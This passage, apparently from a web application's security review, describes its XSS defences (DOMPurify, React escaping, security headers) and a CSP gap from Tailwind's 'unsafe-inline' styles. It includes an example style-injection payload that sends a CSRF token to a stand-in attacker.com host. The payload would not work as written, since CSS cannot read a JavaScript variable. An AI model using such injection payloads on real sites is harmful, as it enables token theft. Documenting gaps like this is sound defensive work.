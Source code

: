 **Protection**:
- DOMPurify removes unsafe HTML constructs
- Whitelist of allowed tags/attributes
- URL validation for links

**Tests**: `apps/web/lib/__tests__/sanitize.test.ts`

### 3. React Automatic Escaping

**Framework-level protection**:
- React automatically escapes all JSX interpolations
- Prevents most common XSS vectors (e.g., `<div>{userInput}</div>`)

**Dangerous patterns avoided**:
- `dangerouslySetInnerHTML` (only used for trusted content with explicit review)
- Direct DOM manipulation (`element.innerHTML = ...`)

### 4. Additional Security Headers

```typescript
const securityHeaders = {
  'X-Content-Type-Options': 'nosniff',     // Prevent MIME sniffing
  'X-Frame-Options': 'DENY',               // Prevent clickjacking
  'Referrer-Policy': 'strict-origin-when-cross-origin',
  'Permissions-Policy': 'camera=(), microphone=(), geolocation=()',
};
```

---

## Identified Gaps

### 1. CSP Gap: style-src 'unsafe-inline'

**Issue**: Tailwind CSS requires `'unsafe-inline'` for dynamic styles

**Risk**: Moderate - Attacker with XSS could inject malicious styles

**Why Required**:
- Tailwind generates utility classes dynamically
- No way to pre-generate all CSS combinations
- Hash-based CSP impractical for Tailwind's dynamic nature

**Potential Attack**:
```html
<style>
  /* Exfiltrate data via background-image */
  body { background-image: url('https://attacker.com/?token=' + csrfToken); }
</style>
```

**Current Mitigation**:
- CSP `script-src` still blocks script-based XSS (primary attack vector)
- Style injection alone cannot read JavaScript-accessible cookies
